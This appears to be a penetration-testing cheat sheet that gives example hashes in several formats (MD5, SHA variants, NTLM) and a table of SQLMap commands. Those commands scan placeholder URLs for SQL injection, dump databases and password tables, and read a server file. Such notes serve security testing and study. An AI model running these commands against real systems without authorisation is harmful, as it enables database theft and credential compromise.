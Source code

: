 ### Hash Examples

Likely just use **hash-identifier** for this but here are some example hashes:

| HASH                    | EXAMPLE                                                      |
| ----------------------- | ------------------------------------------------------------ |
| MD5 Hash Example        | `8743b52063cd84097a65d1633f5c74f5`                           |
| MD5 $PASS:$SALT Example | `01dfae6e5d4d90d9892622325959afbe:7050461`                   |
| MD5 $SALT:$PASS         | `f0fda58630310a6dd91a7d8f0a4ceda2:4225637426`                |
| SHA1 Hash Example       | `b89eaac7e61417341b710b727768294d0e6a277b`                   |
| SHA1 $PASS:$SALT        | `2fc5a684737ce1bf7b3b239df432416e0dd07357:2014`              |
| SHA1 $SALT:$PASS        | `cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024`        |
| SHA-256                 | `127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935` |
| SHA-256 $PASS:$SALT     | `c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4` |
| SHA-256 $SALT:$PASS     | `eb368a2dfd38b405f014118c7d9747fcc97f4f0ee75c05963cd9da6ee65ef498:560407001617` |
| SHA-512                 | `82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f` |
| SHA-512 $PASS:$SALT     | `e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd` |
| SHA-512 $SALT:$PASS     | `976b451818634a1e2acba682da3fd6efa72adf8a7a08d7939550c244b237c72c7d42367544e826c0c83fe5c02f97c0373b6b1386cc794bf0d21d2df01bb9c08a` |
| NTLM Hash Example       | `b4b9b02e6f09a9bd760f388b67351e2b`                           |

## SQLMap Examples

A mini SQLMap cheat sheet:

| COMMAND                                                      | DESCRIPTION                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sqlmap -u http://meh.com --forms --batch --crawl=10  --cookie=jsessionid=54321 --level=5 --risk=3` | Automated sqlmap scan                                        |
| ` sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php" ` | Targeted sqlmap scan                                         |
| `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump ` | Scan url for union + error based injection with mysql backend and use a random user agent + database dump |
| `sqlmap -o -u "http://meh.com/form/" --forms`                | sqlmap check form for injection                              |
| `sqlmap -o -u "http://meh/vuln-form" --forms  -D database-name -T users --dump` | sqlmap dump and crack hashes for table users on database-name. |


